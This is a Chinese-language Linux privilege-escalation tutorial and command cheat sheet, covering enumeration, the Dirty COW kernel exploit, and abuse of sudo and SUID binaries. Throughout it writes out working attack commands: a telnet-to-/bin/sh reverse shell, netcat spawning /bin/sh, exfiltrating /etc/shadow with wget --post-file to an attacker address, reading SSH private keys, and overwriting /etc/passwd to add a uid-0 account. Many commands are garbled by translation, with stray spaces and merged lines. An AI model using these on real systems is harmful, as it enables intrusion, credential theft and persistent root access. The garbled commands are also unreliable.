




## **0x001 linux提权描述** 

大多数计算机系统设计为可与多个用户一起使用。特权是指允许用户执行的操作。普通特权包括查看和编辑文件或修改系统文件。特权升级意味着用户获得他们无权获得的特权。这些特权可用于删除文件，查看私人信息或安装不需要的程序，例如病毒。通常，当系统存在允许绕过安全性的错误或对使用方法的设计假设存在缺陷时，通常会发生这种情况。

特权提升是利用操作系统或软件应用程序中的错误，设计缺陷等等来获得对通常受到应用程序或用户保护的资源的更高访问权限的行为。结果是，具有比应用程序开发人员或系统管理员想要的特权更多的应用程序可以执行未经授权的操作。

特权升级有两种类型：**水平**和**垂直。**在**水平升级中**，您从一个用户转移到另一个用户。在这种情况下，两个用户都是通用的，而在**垂直**方式中，我们将特权从普通用户提升为**管理员**

**简单来说就是**

即用户无法访问（读取/写入/执行）不允许访问的文件。但是，超级用户（root）可以访问系统上存在的所有文件。为了更改任何重要的配置或进行进一步的攻击，首先，我们需要在任何基于Linux的系统上获得root用户访问权限

为什么我们需要执行特权升级？

- 读/写任何敏感文件
- 重新启动之间轻松保持
- 插入永久后门

**特权升级所使用的技术**

我们假设现在我们在远程系统上有外壳。根据我们渗透进去的方式，我们可能没有“ root”特权。以下提到的技术可用于获取系统上的“ root”访问权限。

- 内核漏洞
- 以root身份运行的程序
- 已安装的软件
- 弱密码/重用密码/纯文本密码
- 内部服务
- Suid配置错误
- 滥用sudo权利
- 由root调用的可写脚本
- 路径配置错误
- Cronjobs
- 卸载的文件系统

## **0x002** 基本Linux权限提升前的信息收集

## **信息收集是关键。**

（Linux）特权提升的TIps：

- **信息信息**，更多的信息收集，信息收集是整个渗透测试过程的
- 整理信息，**分析收集的信息**和整理信息。
- 搜索漏洞- 知道要搜索什么以及在哪里可以**找到**漏洞利用代码。
- 修改代码- **修改**漏洞利用程序，使其适合目前的渗透。并非每种漏洞都能为“现成”的每个系统工作。漏洞看环境
- 尝试攻击- 为（很多）**尝试和错误**做好准备。

## **操作系统**

## **什么是发行类型？什么版本的？**

```text
cat /etc/issue cat /etc/*-release cat /etc/lsb-release # Debian based cat /etc/redhat-release # Redhat based
```

## **什么是内核版本？是64位吗？**

```text
cat /proc/version uname -a uname -mrs rpm -q kernel dmesg | grep Linux ls /boot | grep vmlinuz-
```

## **从环境变量中可以收集到什么信息？环境变量中可能存在密码或API密钥**

```text
cat /etc/profile cat /etc/bashrc cat ~/.bash_profile cat ~/.bashrc cat ~/.bash_logout env set
```

## **路径（Path)**

**如果您对该变量内的任何文件夹都具有写权限，则可以劫持某些库或二进制文件：**

PATH

echo $ PATH

## **有打印机吗？**

lpstat -a

## **应用与服务**

**哪些服务正在运行？哪个服务具有哪个用户特权？**

```text
ps aux ps -ef top cat /etc/services
```

**root正在运行哪些服务？在这些易受攻击的服务中，值得仔细检查！**

```text
ps aux | grep root ps -ef | grep root
```

**安装了哪些应用程序？他们是什么版本的？他们目前在运行吗？**

```text
ls -alh /usr/bin/ ls -alh /sbin/ dpkg -l rpm -qa ls -alh /var/cache/apt/archivesO ls -alh /var/cache/yum/
```

**服务设置是否配置错误？是否附有（脆弱的）插件？**

```text
cat /etc/syslog.conf
cat /etc/chttp.conf
cat /etc/lighttpd.conf
cat /etc/cups/cupsd.conf
cat /etc/inetd.conf cat /etc/apache2/apache2.conf
cat /etc/my.conf cat /etc/httpd/conf/httpd.conf
cat /opt/lampp/etc/httpd.conf ls -aRl /etc/ | awk '$1 ~ /^.*r.*/
```

**计划了哪些工作？（计划任务）**

```text
crontab -l
ls -alh /var/spool/cron
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny
cat /etc/crontab
cat /etc/anacrontab
cat /var/spool/cron/crontabs/root
```

**是否有纯文本用户名和/或密码？**

- 检查Web服务器连接到数据库的文件（config.php或类似文件）
- 检查数据库以获取可能被重用的管理员密码
- 检查弱密码

```text
grep -i user [filename]
grep -i pass [filename]
grep -C 5 "password" [filename]
find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password"
```

## **通讯与网络**

**系统具有哪些NIC？它是否连接到另一个网络？**

```text
/sbin/ifconfig -a cat /etc/network/interfaces cat /etc/sysconfig/network
```

**什么是网络配置设置？我们可以找到关于该网络的哪些信息？DHCP服务器？DNS服务器？网关？**

```text
cat /etc/resolv.conf cat /etc/sysconfig/network cat /etc/networks iptables -L hostname dnsdomainname
```

**其他哪些用户和主机正在与系统通信？**

在这种情况下，用户正在运行某些只能从该主机获得的服务。您无法从外部连接到服务。它可能是开发服务器，数据库或其他任何东西。这些服务可能以root用户身份运行，或者其中可能存在漏洞。由于开发人员或用户可能在考虑“由于只有特定用户可以访问它，因此我们不需要花费那么多的安全性”，因此它们可能更加脆弱。

**检查netstat并将其与您从外部进行的nmap扫描进行比较。您是否能从内部找到更多可用的服务？**

```text
# Linuxnetstat -anlpnetstat -ano  lsof -i lsof -i :80 grep 80 /etc/services netstat -antup netstat -antpx netstat -tulpn chkconfig --list chkconfig --list | grep 3:on last w
```

**缓存了什么？IP和/或MAC地址**

```text
arp -e route /sbin/route -nee
```

**数据包嗅探是否可能？可以看到什么？**

```text
tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.5.5.252 21
```

注意：tcpdump tcp dst [ip] [端口]和tcp dst [ip] [端口]

## **我们有shell吗？**

```text
nc -lvp 4444 # Attacker. Input (Commands)
nc -lvp 4445 # Attacker. Ouput (Results) telnet [atackers ip] 44444 | /bin/sh | [local ip] 44445
```

## **是否可以进行端口转发？重定向流量并与之交互**

注意：FPipe.exe -l [本地端口] -r [远程端口] -s [本地端口] [本地IP]

```text
FPipe.exe -l 80 -r 80 -s 80 192.168.1.7
```

注意：ssh-[L / R] [本地端口]：[远程IP]：[远程端口] [本地用户] @ [本地IP]

```text
ssh -L 8080:127.0.0.1:80 root@192.168.1.7 # Local Port ssh -R 8080:127.0.0.1:80 root@192.168.1.7 # Remote Port
```

注意：mknod backpipe p; nc -l -p [远程端口]backpipe

```text
mknod backpipe p ; nc -l -p 8080 < backpipe | nc 10.5.5.151 80 >backpipe # Port Relay
mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow 1>backpipe # Proxy (Port 80 to 8080)
mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow & 1>backpipe # Proxy monitor (Port 80 to 8080)
```

可以使用隧道吗？在本地远程发送命令

```text
ssh -D 127.0.0.1:9050 -N [username]@[ip] proxychains ifconfig
```

## **机密信息和用户**

## **你是谁？谁登录？谁已经登录？那里还有谁？谁能做什么？**

id

who

w

last

cat /etc/passwd | cut -d: -f1 # List of users

grep -v -E “^#” /etc/passwd | awk -F: ‘$3 == 0 { print $1}’ # List of super users

awk -F: ‘($3 == “0”) {print}’ /etc/passwd # List of super users

cat /etc/sudoers

sudo -l

**可以找到哪些敏感文件？**

cat /etc/passwd

cat /etc/group

cat /etc/shadow

ls -alh /var/mail/

**home/root目录有什么“有用”的地方吗？如果可以访问**

ls -ahlR /root/

ls -ahlR /home/

**里面有密码吗？脚本，数据库，配置文件还是日志文件？密码的默认路径和位置**

cat /var/apache2/config.inc

cat /var/lib/mysql/mysql/user.MYD

cat /root/anaconda-ks.cfg

**用户正在做什么？是否有纯文本密码？他们在编辑什么？**

cat ~/.bash_history

cat ~/.nano_history

cat ~/.atftp_history

cat ~/.mysql_history

cat ~/.php_history

**可以找到哪些用户信息？**

cat ~/.bashrc

cat ~/.profile

cat /var/mail/root

cat /var/spool/mail/root

**可以找到私钥信息吗？**

cat ~/.ssh/authorized_keys

cat ~/.ssh/identity.pub

cat ~/.ssh/identity

cat ~/.ssh/id_rsa.pub

cat ~/.ssh/id_rsa

cat ~/.ssh/id_dsa.pub

cat ~/.ssh/id_dsa

cat /etc/ssh/ssh_config

cat /etc/ssh/sshd_config

cat /etc/ssh/ssh_host_dsa_key.pub

cat /etc/ssh/ssh_host_dsa_key

cat /etc/ssh/ssh_host_rsa_key.pub

cat /etc/ssh/ssh_host_rsa_key

cat /etc/ssh/ssh_host_key.pub

cat /etc/ssh/ssh_host_key

## **文件系统**

## **可以在/ etc /中写入哪些配置文件？能够重新配置服务？**

ls -aRl /etc/ | awk ‘$1 ~ /^.*w.*/‘ 2>/dev/null # Anyone

ls -aRl /etc/ | awk ‘$1 ~ /^..w/‘ 2>/dev/null # Owner

ls -aRl /etc/ | awk ‘$1 ~ /^…..w/‘ 2>/dev/null # Group

ls -aRl /etc/ | awk '$1 ~ /w.$/' 2>/dev/null # Other

find /etc/ -readable -type f 2>/dev/null # Anyone

find /etc/ -readable -type f -maxdepth 1 2>/dev/null # Anyone

## **在/ var /中可以找到什么？**

ls -alh /var/log ls -alh /var/mail

ls -alh /var/spool

ls -alh /var/spool/lpd

ls -alh /var/lib/pgsql

ls -alh /var/lib/mysql

cat /var/lib/dhcp3/dhclient.leases

**网站上是否有任何设置/文件（隐藏）？有数据库信息的任何设置文件吗？**

ls -alhR /var/www/

ls -alhR /srv/www/htdocs/

ls -alhR /usr/local/www/apache22/data/

ls -alhR /opt/lampp/htdocs/

ls -alhR /var/www/html/

**日志文件中是否有任何内容（可以帮助“本地文件包含”！）**

cat /etc/httpd/logs/access_log

cat /etc/httpd/logs/access.log

cat /etc/httpd/logs/error_log

cat /etc/httpd/logs/error.log

cat /var/log/apache2/access_log

cat /var/log/apache2/access.log

cat /var/log/apache2/error_log

cat /var/log/apache2/error.log

cat /var/log/apache/access_log

cat /var/log/apache/access.log

cat /var/log/auth.log

cat /var/log/chttp.log

cat /var/log/cups/error_log

cat /var/log/dpkg.log

cat /var/log/faillog

cat /var/log/httpd/access_log

cat /var/log/httpd/access.log

cat /var/log/httpd/error_log

cat /var/log/httpd/error.log

cat /var/log/lastlog

cat /var/log/lighttpd/access.log

cat /var/log/lighttpd/error.log

cat /var/log/lighttpd/lighttpd.access.log

cat /var/log/lighttpd/lighttpd.error.log

cat /var/log/messagescat /var/log/secure

cat /var/log/syslogcat /var/log/wtmp

cat /var/log/xferlog

cat /var/log/yum.log

cat /var/run/utmp

cat /var/webmin/miniserv.log

cat /var/www/logs/access_log

cat /var/www/logs/access.log

ls -alh /var/lib/dhcp3/

ls -alh /var/log/postgresql/

ls -alh /var/log/proftpd/

ls -alh /var/log/samba/

Note: auth.log, boot, btmp, daemon.log, debug, dmesg, kern.log, mail.info, mail.log, mail.warn, messages, syslog, udev, wtmp

## **如果命令受到限制，我们得跳出“受到限制”外壳吗？**

python -c ‘import pty;pty.spawn(“/bin/bash”)’

echo os.system(‘/bin/bash’)

/bin/sh -i

**是否存在安装文件系统**？

mount df -h

**是否有任何卸载的文件系统？**

cat /etc/fstab

**“Linux文件权限”是什么？**

```text
find / -perm -1000 -type d 2>/dev/null   # Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here.
find / -perm -g=s -type f 2>/dev/null    # SGID (chmod 2000) - run as the group, not the user who started it.
find / -perm -u=s -type f 2>/dev/null    # SUID (chmod 4000) - run as the owner, not the user who started it.
find / -perm -g=s -o -perm -u=s -type f 2>/dev/null    # SGID or SUIDfor i in `locate -r "bin$"`; do
find $i \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null; done    # Looks in 'common' places: /bin, /sbin, /usr/bin, /usr/sbin, /usr/local/bin, /usr/local/sbin and any other *bin, for SGID or SUID (Quicker search)#
find starting at root (/), SGID or SUID, not Symbolic links, only 3 folders deep, list with more detail and hide any errors (e.g. permission denied)find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null
```

## **可以在哪里写入和执行？一些“常见”位置：**

```text
/ tmp
/ var / tmp
/ dev / shm
find / -writable -type d 2>/dev/null      # world-writeable folders
find / -perm -222 -type d 2>/dev/null     # world-writeable folders
find / -perm -o w -type d 2>/dev/null     # world-writeable folders
find / -perm -o x -type d 2>/dev/null     # world-executable folders
find / \( -perm -o w -perm -o x \) -type d 2>/dev/null   # world-writeable & executable folders
```

**任何“问题”文件吗？Word可写的“没人”文件**

```text
find / -xdev -type d \( -perm -0002 -a ! -perm -1000 \) -print   # world-writeable filesfind /dir -xdev \( -nouser -o -nogroup \) -print   # Noowner files
```

## **准备和查找漏洞利用代码**

## **安装/支持哪些开发工具/语言？**

find / -name perl*

find / -name python*

find / -name gcc*

find / -name cc

**如何上传文件？**

find / -name wget

find / -name nc*

find / -name netcat*

find / -name tftp*

find / -name ftp

**系统是否已完全打补丁？**

内核，操作系统，所有应用程序，其插件和Web服务

## **0x003 linux提权—自动信息收集**

## **枚举脚本**

我主要使用了三个用于枚举机器的脚本。它们在脚本之间有些区别，但是它们输出的内容很多相同。因此，将它们全部测试一下，看看您最喜欢哪一个。

**LinEnum**

[https://github.com/rebootuser/LinEnum](https://link.zhihu.com/?target=https%3A//github.com/rebootuser/LinEnum)

以下是选项：

```text
-k Enter keyword-e Enter export location-t Include thorough (lengthy) tests-r Enter report name-h Displays this help text
```

**Unix特权**

[http://pentestmonkey.net/tools/audit/unix-privesc-check](https://link.zhihu.com/?target=http%3A//pentestmonkey.net/tools/audit/unix-privesc-check)
运行脚本并将输出保存在文件中，然后使用grep发出警告。

**Linprivchecker.py**

[https://github.com/reider-roque/linpostexp/blob/master/linprivchecker.py](https://link.zhihu.com/?target=https%3A//github.com/reider-roque/linpostexp/blob/master/linprivchecker.py)

## **0x004 linux提权-内核漏洞提权**

通过利用Linux内核中的漏洞，有时我们可以提升特权。我们通常需要了解的操作系统，体系结构和内核版本是测试内核利用是否可行的测试方法。

**内核漏洞**

内核漏洞利用程序是利用内核漏洞来执行具有更高权限的任意代码的程序。成功的内核利用通常以root命令提示符的形式为攻击者提供对目标系统的超级用户访问权限。在许多情况下，升级到Linux系统上的根目录就像将内核漏洞利用程序下载到目标文件系统，编译该漏洞利用程序然后执行它一样简单。

假设我们可以以非特权用户身份运行代码，这就是内核利用的通用工作流程。

1.诱使内核在内核模式下运行我们的有效负载

2.处理内核数据，例如进程特权3.以新特权启动shell root！

**考虑到要成功利用内核利用攻击，攻击者需要满足以下四个条件：**

1.易受攻击的内核

2.匹配的漏洞利用程序

3.将漏洞利用程序转移到目标上的能力

4.在目标上执行漏洞利用程序的能力

抵御内核漏洞的最简单方法是保持内核的修补和更新。在没有补丁的情况下，管理员可以极大地影响在目标上转移和执行漏洞利用的能力。考虑到这些因素，如果管理员可以阻止将利用程序引入和/或执行到Linux文件系统上，则内核利用程序攻击将不再可行。因此，管理员应专注于限制或删除支持文件传输的程序，例如FTP，TFTP，SCP，wget和curl。当需要这些程序时，它们的使用应限于特定的用户，目录，应用程序（例如SCP）和特定的IP地址或域。

**内核信息收集**

一些基本命令收集一些Linux内核信息

**命令结果**
uname -a打印所有可用的系统信息
uname -mLinux内核体系结构（32或64位）
uname -r内核发布
uname -n要么hostname系统主机名
cat /proc/version内核信息
cat /etc/*-release要么cat /etc/issue发行信息
cat /proc/cpuinfoCPU信息
df -a文件系统信息
dpkg —list 2>/dev/nullgrep compilergrep -v decompiler 2>/dev/null && yum list installed ‘gcc*’ 2>/dev/nullgrep gcc 2>/dev/null列出可用的编译器

**搜索漏洞**

site:[http://exploit-db.com](https://link.zhihu.com/?target=http%3A//exploit-db.com) kernel version python linprivchecker.py extended

**通过脏牛（\****CVE-2016-5195***\*）利用易受攻击的机器**
$ whoami命令–告诉我们当前用户是john（非root用户）
$ uname -a –给我们我们知道容易受到dirtycow攻击的内核版本>从此处下载dirtycow漏洞– https：//www.exploit-db .com / exploits / 40839 />编译并执行。通过编辑/ etc / passwd文件，它将“ root”用户替换为新用户“ rash”。
$ su rash –将当前登录用户更改为root用户的“ rash”。

**其他内核提权**

[https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs](https://link.zhihu.com/?target=https%3A//github.com/dirtycow/dirtycow.github.io/wiki/PoCs)

对于不同的内核和操作系统，可以公开获得许多不同的本地特权升级漏洞。是否可以使用内核利用漏洞在Linux主机上获得root访问权限，取决于内核是否易受攻击。Kali Linux具有exploit-db漏洞的本地副本，这使搜索本地根漏洞更加容易。我不建议在搜索Linux内核漏洞时完全依赖此数据库。

## **避免一开始就利用任何本地特权升级漏洞**

如果可以避免，请不要使用内核漏洞利用。如果使用它，可能会使计算机崩溃或使其处于不稳定状态。因此，内核漏洞利用应该是最后的手段。

## **0x004 linux提权-利用以root权限运行的服务**

**描述**

著名的EternalBlue和SambaCry漏洞利用了以root身份运行的smb服务。由于它的致命组合，它被广泛用于在全球范围内传播勒索软件。

这里的手法是，如果特定服务以root用户身份运行，并且我们可以使该服务执行命令，则可以root用户身份执行命令。

我们可以重点检查Web服务，邮件服务，数据库服务等是否以root用户身份运行。很多时候，运维都以root用户身份运行这些服务，而忽略了它可能引起的安全问题。可能有一些服务在本地运行，而没有公开暴露出来，但是也可以利用。

netstat -antup 显示所有打开并正在监听的端口。我们可以检查在本地运行的服务是否可以被利用。

ps aux 列出哪些进程正在运行

ps -aux | grep root 列出以root身份运行的服务。

**在**Matesploits**中**

ps 检查哪些进程正在运行

**利用以**root**用户身份运行的易受攻击的**MySQL**版本来获得**root**用户访问权限**

MySQL UDF动态库漏洞利用可让我们从mysql shell执行任意命令。如果mysql以root特权运行，则命令将以root身份执行。

ps -aux | grep root 列出以root身份运行的服务。


可以看到mysql服务以root用户组运行，那么我们可以使用将作为root用户执行的MySQL Shell执行任意命令**。**





拥有root权限的程序的二进制漏洞利用远没有内核漏洞利用危险，因为即使服务崩溃，主机也不会崩溃，并且服务可能会自动重启。

**防御**

除非真正需要，否则切勿以root用户身份运行任何服务，尤其是Web，数据库和文件服务器。

## **0x005 linux提权—滥用SUDO**

在渗透中，我们拿到的webshell和反弹回来的shell权限可能都不高，如果我们可以使用sudo命令访问某些程序，则我们可以使用**sudo**可以升级特权。在这里，我显示了一些二进制文件，这些文件可以帮助您使用sudo命令提升特权。但是在特权升级之前，让我们了解一些sudoer文件语法，sudo命令是什么？;）。

1. 什么是SUDO？
2. Sudoer文件语法。
3. 利用SUDO用户

- /usr/bin/find
- /usr/bin/nano
- /usr/bin/vim
- /usr/bin/man
- /usr/bin/awk
- /usr/bin/less
- /usr/bin/nmap ( –interactive and –script method)
- /bin/more
- /usr/bin/wget
- /usr/sbin/apache2

## **什么是SUDO ??**

sudo是linux系统管理指令，是允许系统管理员让普通用户执行一些或者全部的root命令的一个工具，如halt，reboot，su等等。这样不仅减少了root用户的登录 和管理时间，同样也提高了安全性。sudo不是对shell的一个代替，它是面向每个命令的。

基础

它的特性主要有这样几点：

- sudo能够限制用户只在某台主机上运行某些命令。
- sudo提供了丰富的日志，详细地记录了每个用户干了什么。它能够将日志传到中心主机或者日志服务器。
- sudo使用时间戳文件来执行类似的“检票”系统。当用户调用sudo并且输入它的密码时，用户获得了一张存活期为5分钟的票（这个值可以在编译的时候改变）。
- sudo的配置文件是sudoers文件，它允许系统管理员集中的管理用户的使用权限和使用的主机。它所存放的位置默认是在/etc/sudoers，属性必须为0440。

在sudo于1980年前后被写出之前，一般用户管理系统的方式是利用su切换为超级用户。但是使用su的缺点之一在于必须要先告知超级用户的密码。

sudo使一般用户不需要知道超级用户的密码即可获得权限。首先超级用户将普通用户的名字、可以执行的特定命令、按照哪种用户或用户组的身份执行等信息，登记在特殊的文件中（通常是/etc/sudoers），即完成对该用户的授权（此时该用户称为“sudoer”）；在一般用户需要取得特殊权限时，其可在命令前加上“sudo”，此时sudo将会询问该用户自己的密码（以确认终端机前的是该用户本人），回答后系统即会将该命令的进程以超级用户的权限运行。之后的一段时间内（默认为5分钟，可在/etc/sudoers自定义），使用sudo不需要再次输入密码。

由于不需要超级用户的密码，部分Unix系统甚至利用sudo使一般用户取代超级用户作为管理帐号，例如Ubuntu、Mac OS X等。

**参数说明**：

- -V 显示版本编号
- -h 会显示版本编号及指令的使用方式说明
- -l 显示出自己（执行 sudo 的使用者）的权限
- -v 因为 sudo 在第一次执行时或是在 N 分钟内没有执行（N 预设为五）会问密码，这个参数是重新做一次确认，如果超过 N 分钟，也会问密码
- -k 将会强迫使用者在下一次执行 sudo 时问密码（不论有没有超过 N 分钟）
- -b 将要执行的指令放在背景执行
- -p prompt 可以更改问密码的提示语，其中 %u 会代换为使用者的帐号名称， %h 会显示主机名称
- -u username/#uid 不加此参数，代表要以 root 的身份执行指令，而加了此参数，可以以 username 的身份执行指令（#uid 为该 username 的使用者号码）
- -s 执行环境变数中的 SHELL 所指定的 shell ，或是 /etc/passwd 里所指定的 shell
- -H 将环境变数中的 HOME （家目录）指定为要变更身份的使用者家目录（如不加 -u 参数就是系统管理者 root ）
- command 要以系统管理者身份（或以 -u 更改为其他人）执行的指令

## **Sudoer文件**

## **sudoers文件主要有三部分组成：**

- sudoers的默认配置（default），主要设置sudo的一些缺省值
- alias（别名），主要有Host_Alias|Runas_Alias|User_Alias|Cmnd_Alias。
- 安全策略（规则定义）——**重点**。

语法

root ALL=(ALL) ALL

说明1：root用户可以从 ALL终端作为 ALL（任意）用户执行，并运行 ALL（任意）命令。

第一部分是用户，第二部分是用户可以在其中使用sudo命令的终端，第三部分是他可以充当的用户，最后一部分是他在使用时可以运行的命令。sudo

touhid ALL= /sbin/poweroff

说明2：以上命令，使用户可以从任何终端使用**touhid\****的用户密码**关闭命令电源。

touhid ALL = (root) NOPASSWD: /usr/bin/find

说明3：上面的命令，使用户可以从任何终端运行，以**root**用户身份运行命令find **而无需密码**。

## **利用SUDO用户**

要利用sudo用户，您需要找到您必须允许的命令。
sudo -l

上面的命令显示了允许当前用户使用的命令。





此处sudo -l，显示用户已允许以root用户身份执行所有此二进制文件而无需密码。

让我们一一查看所有二进制文件（仅在索引中提到）和将**特权**提升给**root**用户。

## **使用查找命令**

sudo find / etc / passwd -exec / bin / sh \;

要么

sudo find / bin -name nano -exec / bin / sh \;

## **使用**Vim**命令**

sudo vim -c’！sh’

## **使用**Nmap**命令**

sudo nmap-交互式nmap>！shsh-4.1＃

**注意：\****nmap –interactive**选项在最新的**nmap***\*中不可用。**

没有互动的最新方式

echo“ os.execute（’/ bin / sh’）”> /tmp/shell.nse && sudo nmap —script = / tmp / shell.nse

## **使用**Man**命令**

sudo man man

之后按**！**按下并按Enter

## **使用less**/more**命令**

sudo less / etc / hosts

sudo more / etc / hosts

之后按**！**按下并按Enter

## **使用**awk**命令**

sudo awk’BEGIN {system（“ / bin / sh”）}’

## **使用**nano**命令**

nano是使用此编辑器的文本编辑器，在您需要切换用户之后，您可以修改passwd文件并将用户添加为root特权。在/ etc /passwd中添加此行，以将用户添加为root特权。

touhid：$ 6 $ bxwJfzor $ MUhUWO0MUgdkWfPPEydqgZpm.YtPMI / gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0：0：0：root：/ root：/ bin

sudo nano / etc / passwd

现在切换用户密码是：test

su touhid

## **使用**wget**命令**

这种非常酷的方式要求Web服务器下载文件。这样我从没在任何地方见过。让我们解释一下。

- 首先将Target的/ etc / passwd文件复制到攻击者计算机。
- 修改文件，并在上一步中保存的密码文件中添加用户到攻击者计算机。
- 仅附加此行=> **touhid\****：**$ 6 $ bxwJfzor $ MUhUWO0MUgdkWfPPEydqgZpm.YtPMI / gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0 / 0**：**b**：**root / root**：**
- 将passwd文件托管到使用任何Web服务器的主机。

**在受害者方面。**

sudo wget [http://192.168.56.1:8080/passwd](https://link.zhihu.com/?target=http%3A//192.168.56.1%3A8080/passwd) -O / etc / passwd

现在切换用户密码是：test

su touhid

**注意：如果您要从服务器上转储文件，例如**root**的**ssh**密钥，**shadow**文件等。**

sudo wget —post-file = / etc / shadow 192.168.56.1:8080

攻击者的设置侦听器：nc –lvp 8080

## **使用**apache**命令**

但是，我们无法获得Shell和Cant编辑系统文件。

但是使用它我们可以查看系统文件。

sudo apache2 -f / etc / shadow

输出是这样的：

Syntax error on line 1 of /etc/shadow:Invalid command 'root:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration

可悲的是没有shell。但是我们可以现在提取root哈希，然后在破解了哈希。

## **0x006 linux提权-Suid和Guid配置错误**

**描述**

SUID代表设置的用户ID，是一种Linux功能，允许用户在指定用户的许可下执行文件。例如，Linux ping命令通常需要root权限才能打开网络套接字。通过将ping程序标记为SUID（所有者为root），只要低特权用户执行ping程序，便会以root特权执行ping。

SUID（设置用户ID）是赋予文件的一种权限，它会出现在文件拥有者权限的执行位上，具有这种权限的文件会在其执行时，使调用者暂时获得该文件拥有者的权限。

当运行具有suid权限的二进制文件时，它将以其他用户身份运行，因此具有其他用户特权。它可以是root用户，也可以只是另一个用户。如果在程序中设置了suid，该位可以生成shell或以其他方式滥用，我们可以使用它来提升我们的特权。

**以下是一些可用于产生**SHELL**的程序：**

nmap

vim

less more

nano

cpmv

find

**查找**suid**和**guid**文件**

Find SUID find / -perm -u=s -type f 2>/dev/null Find GUID find / -perm -g=s -type f 2>/dev/null

**其他命令**

**命令结果**
find / -perm -4000 -type f 2>/dev/null查找SUID文件
find / -uid 0 -perm -4000 -type f 2>/dev/null查找root拥有的SUID文件
find / -perm -2000 -type f 2>/dev/null查找SGID文件（粘性位）
find / ! -path “*/proc/*“ -perm -2 -type f -print 2>/dev/null查找世界可写文件，不包括proc文件
find / -type f ‘(‘ -name *.cert -or -name* .crt -or -name *.pem -or -name* .ca -or -name *.p12 -or -name* .cer -name *.der ‘)’ ‘(‘ ‘(‘ -user support -perm -u=r ‘)’ -or ‘(‘ -group support -perm -g=r ‘)’ -or ‘(‘ -perm -o=r ‘)’ ‘)’ 2> /dev/null-or -name* .cer -name *.der ‘)’ 2> /dev/null查找您可以阅读的密钥或证书
find /home –name *.rhosts -print 2>/dev/null查找rhost配置文件
find /etc -iname hosts.equiv -exec ls -la {} 2>/dev/null ; -exec cat {} 2>/dev/null ;查找hosts.equiv，列出权限并管理文件内容
cat ~/.bash_history显示当前用户历史记录
ls -la ~/.*_history向当前用户分发各种历史文件
ls -la ~/.ssh/检查当前用户的ssh文件
find /etc -maxdepth 1 -name ‘*.conf’ -type f要么ls -la /etc/*.conf在/ etc中列出配置文件（深度1，在第一个命令中修改maxdepth参数以对其进行更改）
lsofgrep ‘/home/\/etc/\/opt/‘显示可能有趣的打开文件

也可以使用 sudo -l 命令列出当前用户可执行的命令

## **常用提权方式**

**nmap**

find / -perm -u = s -type f 2> / dev / null –查找设置了SUID位的可执行文件

ls -la / usr / local / bin / nmap –让我们确认nmap是否设置了SUID位。

Nmap的SUID位置1。很多时候，管理员将SUID位设置为nmap，以便可以有效地扫描网络，因为如果不使用root特权运行它，则所有的nmap扫描技术都将无法使用。

但是，nmap（2.02-5.21）存在交换模式，可利用提权，我们可以在此模式下以交互方式运行nmap，从而可以转至shell。如果nmap设置了SUID位，它将以root特权运行，我们可以通过其交互模式访问’root’shell。

nmap –interactive –运行nmap交互模式！sh –我们可以从nmap shell转到系统shell

**msf**中的模块为：

exploit/unix/local/setuid_nmap

**较新版可使用 —script 参数：**

echo “os.execute(‘/bin/sh’)” > /tmp/shell.nse && sudo nmap —script=/tmp/shell.nse

**find**

touch test

**nc** **反弹 shell：**

find test -exec netcat -lvp 5555 -e /bin/sh \;

**vi/vim**

Vim的主要用途是用作文本编辑器。但是，如果以SUID运行，它将继承root用户的权限，因此可以读取系统上的所有文件。

打开vim,按下ESC

:set shell=/bin/sh:shell

或者

sudo vim -c ‘!sh’

**bash**

**以下命令将以**root**身份打开一个**bash shell**。**

bash -pbash-3.2# iduid=1002(service) gid=1002(service) euid=0(root) groups=1002(service)

**less**

程序Less也可以执行提权后的shell。同样的方法也适用于其他许多命令。

less /etc/passwd!/bin/sh

**more**

more /home/pelle/myfile!/bin/bash

**cp**

覆盖 /etc/shadow 或 /etc/passwd

```text
[zabbix@localhost ~]$ cat /etc/passwd >passwd[zabbix@localhost ~]$ openssl passwd -1 -salt hack hack123$1$hack$WTn0dk2QjNeKfl.DHOUue0[zabbix@localhost ~]$ echo 'hack:$1$hack$WTn0dk2QjNeKfl.DHOUue0:0:0::/root/:/bin/bash' >> passwd[zabbix@localhost ~]$ cp passwd /etc/passwd[zabbix@localhost ~]$ su - hackPassword:[root@361way ~]# iduid=0(hack) gid=0(root) groups=0(root)[root@361way ~]# cat /etc/passwd|tail -1hack:$1$hack$WTn0dk2QjNeKfl.DHOUue0:0:0::/root/:/bin/bash
```

**mv**

覆盖 /etc/shadow 或 /etc/passwd

```text
[zabbix@localhost ~]$ cat /etc/passwd >passwd[zabbix@localhost ~]$ openssl passwd -1 -salt hack hack123$1$hack$WTn0dk2QjNeKfl.DHOUue0[zabbix@localhost ~]$ echo 'hack:$1$hack$WTn0dk2QjNeKfl.DHOUue0:0:0::/root/:/bin/bash' >> passwd[zabbix@localhost ~]$ mv passwd /etc/passwd[zabbix@localhost ~]$ su - hackPassword:[root@361way ~]# iduid=0(hack) gid=0(root) groups=0(root)[root@361way ~]# cat /etc/passwd|tail -1hack:$1$hack$WTn0dk2QjNeKfl.DHOUue0:0:0::/root/:/bin/bash
```

**nano**

nano /etc/passwd

**awk**

awk ‘BEGIN {system(“/bin/sh”)}’

**man**

man passwd!/bin/bash

**wget**

wget [http://192.168.56.1:8080/passwd](https://link.zhihu.com/?target=http%3A//192.168.56.1%3A8080/passwd) -O /etc/passwd

**apache**

仅可查看文件，不能弹 shell：

apache2 -f /etc/shadow

**tcpdump**

